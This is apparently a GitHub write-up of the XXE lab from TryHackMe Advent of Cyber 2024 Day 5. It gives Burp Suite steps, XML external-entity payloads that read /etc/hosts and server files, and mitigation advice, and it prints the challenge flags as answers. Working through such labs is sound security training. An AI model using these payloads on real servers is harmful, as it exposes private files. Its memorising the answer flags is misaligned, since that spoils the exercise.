 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Objectives 🎯

1. Understand how XML and entities work to identify XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate application development history for signs of sabotage.

## Steps 🚀

### Step 1: Identifying the XXE Vulnerability

#### Setting Up Burp Suite
1. **Install and Launch Burp Suite:**  
   - Download Burp Suite [here](https://portswigger.net/burp).
2. **Navigate to the Website:**  
   - Open Burp's browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to Wishlist:**  
   - Intercept the "Add to Wishlist" request using Burp Suite’s **Proxy** tab.

#### Crafting the Payload
1. **Intercept and Modify the Request:**  
   Replace the `<product_id>` value in the XML with an external entity reference:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Send the Request:**  
   Use Burp’s **Repeater** tab to send the modified request and observe the response.

### Step 2: Exploiting the XXE Vulnerability

#### Accessing Sensitive Files
1. **Target Files in the Server:**  
   Modify the payload to access files in `/var/www/html/wishes/`:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Iterate Through Files:**  
   Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to uncover additional content.

#### Discovering the Flag
- On `wish_15.txt`, the response reveals:  
  ```
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

### Step 3: Investigating the Sabotage

#### Accessing the Changelog
1. **View the Changelog:**  
   Visit `http://MACHINE_IP/CHANGELOG`.
2. **Analyze Entries:**  
   The changelog indicates a recent update introducing vulnerable XML parser code.

#### Discovering the Sabotage Flag
- The changelog reveals the sabotage:  
  **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Key Findings 🔑

1. **Sensitive File Access:** Exploiting the XXE vulnerability enabled access to restricted server files.
2. **Evidence of Sabotage:** The changelog confirmed suspicious modifications by Mayor Malware.
3. **Unsecure XML Parsing:** The vulnerability arose from improperly handled external entities.

## Lessons Learned 🌟

### Understanding XXE Exploitation
1. **XML Risks:** XML parsing without restrictions can expose sensitive backend systems.
2. **Entity Resolution:** External entities can be used to access files or send malicious requests.

### Mitigation Strategies
1. **Disable External Entity Loading:**  
   - Use `libxml_disable_entity_loader(true)` in PHP.
2. **Input Validation:**  
   - Restrict XML structures and validate inputs before processing.
3. **Regular Audits:**  
   - Review and test applications for vulnerabilities prior to deployment.

## Tools and Techniques 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to test for XXE.  
2. **XML Payloads:** Exploited vulnerabilities using custom XML with external entities.  
3. **Browser:** Accessed the application and verified the exploitation outcomes.

## Final Thoughts 🎁

Day 5 emphasized the importance of secure coding practices when dealing with XML. The challenge demonstrated how improper parsing could expose sensitive data and highlighted the dangers of external entities. Understanding these risks and addressing them proactively is crucial for secure application development.

### Answers ✅

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`  
2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`  

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- **Day 5: XXE Exploitation**  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Sandboxes](day7.md)
- [Day 8: Shellcodes](day8.md)
- [More Days to Come!](README.md)
